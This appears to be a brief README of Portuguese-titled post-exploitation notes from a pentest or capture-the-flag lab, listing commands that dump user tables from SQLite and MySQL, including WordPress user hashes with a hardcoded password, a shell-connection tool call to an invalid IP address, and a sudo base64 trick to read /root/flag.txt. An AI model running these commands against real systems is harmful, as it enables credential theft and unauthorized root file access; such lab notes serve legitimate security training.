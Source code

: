 # posexploracao
Lista de comandos relacionados a pentest

sqlite3
.tables
select * from Users


rbscheat -i 172.16.1000.11:2223 -l bash

echo "select * from mysql.user;" | mysql -h 127.0.0.1 -uwordpress -pskade 

echo "select * from wordpress.wp_users;" | mysql -h 127.0.0.1 -uwordpress -pskade 

export TERM=xterm >>>> 

sudo base64 /root/flag.txt | base64 -d
